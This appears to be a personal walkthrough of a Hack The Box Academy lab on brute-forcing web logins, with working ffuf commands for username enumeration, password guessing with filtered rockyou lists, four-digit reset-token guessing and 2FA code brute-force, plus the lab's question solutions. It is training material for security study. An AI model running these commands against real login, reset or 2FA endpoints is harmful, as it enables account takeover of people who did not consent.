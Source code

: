 # 🏍️ Brute-Force Attacks

## Enumerating Users

User enumeration vulnerabilities arise when a web application responds differently to registered/valid and invalid inputs for authentication endpoints

Let's imagine those 2 errors:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption><p>User does not exist</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1).png" alt=""><figcaption><p>Just a wrong password </p></figcaption></figure>

To enumerate users via error messages, we will use the `xato-net-10-million-usernames.txt`

Let's imagine the following error message:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

we can filter out invalid users by removing responses containing the string `Unknown user`

```shell-session
ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```

And when we identify a valid user, we can proceed to do bruteforce

_**Enumerate a valid user on the web application. Provide the username as the answer.**_

```
fuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.56.194:35890/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Brute-Forcing Passwords

Let's imagine we got password policy going on and we're not sure about lockout policy, we can create wordlists according to the policy from famous wordlists to reduce noise:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```shell-session
ElFelixi0@htb[/htb]$ grep '[[:upper:]]' /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

Once we got our user or our list of users and our post variable as well as the error messgae, we can start bruteforcing ->

```
ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

_**What is the password of the user 'admin'?**_

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w custom_wordlist.txt -u http://94.237.53.113:46749/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Password Reset Tokens

Many web applications implement a password-recovery functionality if a user forgets their password that often utilizes a one-time reset token via SMS or email.

Here is a a basic password reset flow

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To start exploiting this, let's imagine we created an account on the website and asked for a new password and received this type of email:

```
<SNIP>
paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351
<SNIP>
```

We can see that we get the token is `7351`. Given that the token consists of only a 4-digit number, there can be only `10,000` possible values&#x20;

So let's start by making our list of possible tokens:

```shell-session
seq -w 0 9999 > tokens.txt
```

and then launch our attack and all ports, thus attacking every user that is currently resseting their password

```shell-session
ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

_**Takeover another user's account on the target system to obtain the flag.**_

```
ffuf -w ./tokens.txt -u http://94.237.50.83:58664/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### 2FA Codes

Generally this is achieved by combining knowledge-based authentication (password) with ownership-based authentication (the 2FA device)

most of the time, it relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS that are typically **only of digits**

Let's say we have a set of credentials and there is 2FA:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we capture the request we can see the follwoing:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>only <code>10,000</code> possible variations</p></figcaption></figure>

So let's start by crafting our wordlist, then our payload:

```shell-session
seq -w 0 9999 > tokens.txt
```

We can't forget the error message:&#x20;

```shell-session
ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

_**Brute-force the admin user's 2FA code on the target system to obtain the flag.**_

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w tokens.txt -u http://94.237.56.194:54467/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=d3ng2r9pippot860ural3jls64" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
